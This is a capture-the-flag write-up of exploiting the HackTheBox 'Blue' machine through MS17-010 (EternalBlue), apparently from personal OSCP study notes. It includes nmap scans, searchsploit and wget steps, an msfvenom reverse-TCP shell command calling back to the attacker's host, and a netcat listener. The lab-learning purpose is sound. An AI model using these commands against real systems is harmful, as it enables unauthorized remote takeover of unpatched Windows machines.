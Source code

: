 # Blue

## IP
The HackTheBox IP for this machine was 10.10.10.40

## Nmap
I ran Nmap three times for this machine. The first was a simple service scan:

```
kali@kali:~$ sudo nmap -sS -p- 10.10.10.40 -vv
...
PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127
```

I then ran a **-A** against all three open identified ports:

```
kali@kali:~$ sudo nmap -A 10.10.10.40 -p135,139,445 -vv
...
PORT    STATE SERVICE      REASON          VERSION
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 
...
Host script results:
|_clock-skew: mean: 9m36s, deviation: 1s, median: 9m35s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 13581/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 18036/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-10-31T03:01:59+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-31T03:01:57
|_  start_date: 2020-10-31T02:59:24
```

Finally, I ran **-A** against the SMB-specific ports (139, 445) turning on all the NSE scripts from SMB vulnerabilities:

```
kali@kali:~$ sudo nmap -A 10.10.10.40 -p139,445 --script=smb-vuln-* -vv
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
...
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010 : 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

The NSE scripts show Blue is vulnerable to MS17-010, the same issue we exploited for Legacy. But this time, I didn't want to use a walkthrough of the box. Instead, I wanted to see how to manually exploit the issue *for the issue* and not just for the box.

## Searchsploit
![Image of Searchsploit for MS17-010](https://github.com/Malwolf24/OSCP/blob/main/Blue/images/blue_searchsploit.png)

## Exploit
For this manual walkthrough, I followed Red Team Zone's "Eternal Blue" write-up (https://redteamzone.com/EternalBlue/). First, I mirrored **42315.py** down to my local machine and then made a working copy of it called **exploit.py**. 

```searschsploit -x 42315.py```

```cp 42315.py exploit.py```

For this exploit to work, we need to download **mysmb.py** from https://github.com/worawit/MS17-010/blob/master/mysmb.py:

```
kali@kali:~/Desktop/OSCP/Blue$ python exploit.py
Traceback (most recent call last):
  File "exploit.py", line 3, in <module>
    from mysmb import MYSMB
ImportError: No module named mysmb
```

```
kali@kali:~/Desktop/OSCP/Blue$ wget https://github.com/worawit/MS17-010/blob/master/mysmb.py
--2020-10-30 23:32:20--  https://github.com/worawit/MS17-010/blob/master/mysmb.py
Resolving github.com (github.com)... 140.82.113.3
Connecting to github.com (github.com)|140.82.113.3|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘mysmb.py’

mysmb.py                                                   [  <=>                                                                                                                       ] 220.11K   553KB/s    in 0.4s    

2020-10-30 23:32:22 (553 KB/s) - ‘mysmb.py’ saved [225389]
```

Next, we use MSFVenom to generate a reverse TCP shell for windows, specifying my localhost and port 4444 for the shell to connext to once executed:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f exe > shell.exe
```

Great! Now we have the exploit and we have our shell. Now, how do we get them to play nice together such that the exploit will execute our shell and connext back to our attacking machine? For that, we need to modify the exploit Python code:

![Exploit modification](https://github.com/Malwolf24/OSCP/blob/main/Blue/images/blue_exploit_mod.png)

Then set up a netcat listener on port 4444:

```nc -nlvp 4444```

And run our exploit code (after we specify username='guest' in the exploit code...for that part...):

```python exploit.py 10.10.10.40```

## Success!
![Success!](https://github.com/Malwolf24/OSCP/blob/main/Blue/images/blue_success.png)

From here, as with Legacy, we are already system administrator, so we just navigate to both the user's Desktop and administrator's Desktop and retrieve the flags. Success!
